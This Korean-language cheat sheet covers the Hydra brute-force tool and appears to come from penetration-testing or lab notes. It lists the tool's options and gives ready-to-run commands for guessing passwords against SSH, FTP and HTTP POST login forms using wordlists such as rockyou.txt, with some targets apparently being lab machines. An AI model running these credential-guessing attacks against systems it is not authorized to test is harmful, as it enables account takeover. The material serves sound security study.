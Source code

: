# hydra 사용법 정리

## 개요

Hydra는 다양한 프로토콜(ssh, ftp, http 등)에 대해 빠른 무차별 대입(brute-force) 공격을 지원하는 도구다. 주로 패스워드 크래킹, 인증 우회 테스트에 활용된다.

---

## 기본 명령어 구조

```bash
hydra [옵션] -l <사용자명> -P <패스워드리스트> <타겟> <서비스>
```

- `-l <사용자명>` : 단일 사용자명 지정
- `-L <사용자명파일>` : 사용자명 리스트 파일 지정
- `-p <패스워드>` : 단일 패스워드 지정
- `-P <패스워드리스트>` : 패스워드 리스트 파일 지정
- `<타겟>` : 공격 대상 IP 또는 도메인
- `<서비스>` : ssh, ftp, http-get 등 서비스명

---

## 자주 쓰는 예시

### 1. SSH 브루트포스

```bash
hydra -l root -P rockyou.txt 192.168.0.10 ssh
```

- root 계정에 대해 rockyou.txt의 패스워드로 시도

### 2. 여러 사용자명, 패스워드 조합

```bash
hydra -L users.txt -P passwords.txt 10.10.10.10 ftp
```

- users.txt의 모든 사용자와 passwords.txt의 모든 패스워드 조합 시도

### 3. 특정 포트 지정

```bash
hydra -l admin -P pass.txt -s 2222 192.168.1.5 ssh

```

- 2222 포트의 ssh 서비스에 대해 시도

### 4. HTTP POST 로그인 크래킹

```bash
hydra -L users.txt -P pass.txt 192.168.1.100 http-post-form \
"/login.php:user=^USER^&pass=^PASS^:F=로그인실패문구"

hydra -l molly -P rockyou.txt <MACHINE_IP> http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.201.106.187 -t 4
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.201.106.187 -t 4 ssh
```

- 로그인 실패시 출력되는 문구(F=)를 정확히 지정해야 함

---

## 주요 옵션

- `-t <동시스레드수>` : 병렬 연결 수(기본 16, 속도 조절)
- `-V` : 시도하는 ID/PW 조합을 모두 출력
- `-f` : 첫 성공 시도 후 종료
- `-o <파일명>` : 결과를 파일로 저장
- `-s <포트번호>` : 포트 지정
- `-e nsr` : 빈 패스워드(n), 사용자명=패스워드(s), 역순(r)도 시도
- `-u` : 사용자별로 패스워드 리스트를 모두 시도 후 다음 사용자로
- `-w <초>` : 타임아웃 지정

---

## 참고

- 서비스별로 입력 포맷이 다를 수 있으니, `hydra -U`로 지원 서비스와 예시 확인 가능
- 너무 많은 요청은 차단될 수 있으니, 속도(-t) 조절 필요
- 결과는 항상 수동으로 검증할 것
